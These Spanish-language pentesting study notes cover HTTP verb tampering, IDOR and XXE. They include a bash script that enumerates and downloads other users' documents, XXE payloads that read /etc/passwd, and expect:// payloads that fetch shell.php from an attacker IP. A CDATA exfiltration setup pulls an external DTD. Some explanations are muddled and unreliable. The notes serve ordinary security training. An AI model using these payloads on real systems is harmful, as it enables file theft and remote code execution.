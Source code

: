 # Other Web Attacks (HTTP verb Tampering, IDOR & XXE)

## HTTP verb tampering

- hay 9 verbos HTTP, los más comunes son:
    - GET
    - POST
    - PUT
    - DELETE
    - PATCH
    - HEAD
    - OPTIONS
    - TRACE
    - CONNECT
- Entonces si una aplicación web no valida los verbos HTTP, se puede hacer un ataque de HTTP verb tampering.
- Un ataque de HTTP verb tampering es un ataque que se basa en la manipulación de los verbos HTTP para realizar acciones no autorizadas.
- Por ejemplo, si una aplicación web permite el uso del verbo DELETE, un atacante podría enviar una solicitud DELETE a un recurso que no debería ser eliminado.
- Para prevenir este tipo de ataques, se deben restringir los verbos HTTP permitidos en la aplicación web.
- O con PUT se puede subir un archivo a un servidor.
- O con TRACE se puede hacer un ataque de Cross-Site Tracing.
- O con CONNECT se puede hacer un ataque de HTTP tunneling, etc etc.

## IDOR (Insecure Direct Object Reference)
- IDOR es una vulnerabilidad de seguridad que se produce cuando una aplicación web expone referencias directas a objetos internos.
- Por ejemplo, si una aplicación web utiliza un parámetro numérico para acceder a un recurso, un atacante podría modificar ese parámetro para acceder a recursos no autorizados.

### Identificando IDORs
- Para identificar IDORs, se pueden seguir los siguientes pasos:
    - Identificar los parámetros que se utilizan para acceder a recursos.
    - Modificar esos parámetros para acceder a recursos no autorizados.
    - Observar si la aplicación web permite el acceso a recursos no autorizados.
#### Llamadas AJAX
- En las llamadas AJAX, se pueden identificar IDORs de la siguiente manera:
    - Inspeccionar las llamadas AJAX en la pestaña Network de las herramientas de desarrollo del navegador.
    - Identificar los parámetros que se utilizan en las llamadas AJAX.
    - Modificar esos parámetros para acceder a recursos no autorizados.
    - Observar si la aplicación web permite el acceso a recursos no autorizados.

### Enumeración masiva con IDORs
- Para realizar una enumeración masiva con IDORs, se pueden seguir los siguientes pasos:
    - Identificar los parámetros que se utilizan para acceder a recursos.
    - Crear una lista de valores posibles para esos parámetros.
    - Automatizar la modificación de esos parámetros para acceder a recursos no autorizados.
    - Observar si la aplicación web permite el acceso a recursos no autorizados.
- Script de ejemplo:

```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

## XXE (XML External Entity)
- XXE es una vulnerabilidad de seguridad que se produce cuando una aplicación web expone un punto de entrada que permite la inclusión de archivos XML externas.
- Por ejemplo, si una aplicación web permite la inclusión de archivos XML externas, un atacante podría incluir archivos XML maliciosos en una solicitud POST o GET.

### Identificando XXE
- Para identificar XXE, se pueden seguir los siguientes pasos:
    - Identificar puntos de entrada que permiten la inclusión de archivos XML externas.
    - Verificar si la aplicación web permite la inclusión de archivos XML externas.
    - Verificar si la aplicación web permite la inclusión de archivos XML externas en las solicitudes POST o GET.

### Payloads con SYSTEM
- Para explotar XXE, se pueden utilizar diferentes payloads con SYSTEM.
- Un payload con SYSTEM es un payload que contiene una directiva de sistema que se ejecutará en el servidor.
- Por ejemplo, si una aplicación web permite la inclusión de archivos XML externas, un atacante podría utilizar un payload con SYSTEM para ejecutar código en el servidor.
- Payloads:
    - `<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>`
    - `<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>`

### Payloads con DTD
- Para explotar XXE, se pueden utilizar diferentes payloads con DTD.
- Un payload con DTD es un payload que contiene una declaración de tipo de documento (DTD) que se utilizará para validar el documento XML.
- Por ejemplo, si una aplicación web permite la inclusión de archivos XML externas, un atacante podría utilizar un payload con DTD para ejecutar código en el servidor.
- Payloads:
    - `<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>`
    - `<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>`

### Identificando XXE
- Primero tenemos que encontrar una petición que permita la inclusión de archivos XML externas.
- Puede ser desde un formulario, una solicitud HTTP, un archivo de configuración, un excel, etc.
- [Payloads list](https://github.com/payloadbox/xxe-injection-payload-list)

### RCE con XXE
- Podemos utilizar el siguiente payload para ejecutar comandos en el servidor:
    - `<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "expect://ls" >]><foo>&xxe;</foo>`
    - `<!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">`
    - `<!ENTITY % file SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">%file;`

### Filtración con CDATA
- Para filtrar el contenido de una aplicación web, se puede utilizar la directiva CDATA.
- La directiva CDATA se utiliza para filtrar el contenido de una aplicación web.
- Por ejemplo, si una aplicación web permite la inclusión de archivos XML externas, un atacante podría utilizar la directiva CDATA para filtrar el contenido de la aplicación web.
- Payloads:
```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```
#### Parametros en declaraciones de entidades
- Las declaraciones de entidades pueden contener parámetros que se utilizan para reemplazar valores dinámicos en la declaración de entidad.
- Por ejemplo, si una aplicación web permite la inclusión de archivos XML externas, un atacante podría utilizar parámetros para reemplazar el contenido de la aplicación web.
- utilizamos `%` para poner parámetros en declaraciones de entidades.
```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/SOME-FILE.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:PORT/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```
- Desde la maquina atacante tenemos que xxe: `<!ENTITY joined "%begin;%file;%end;">`
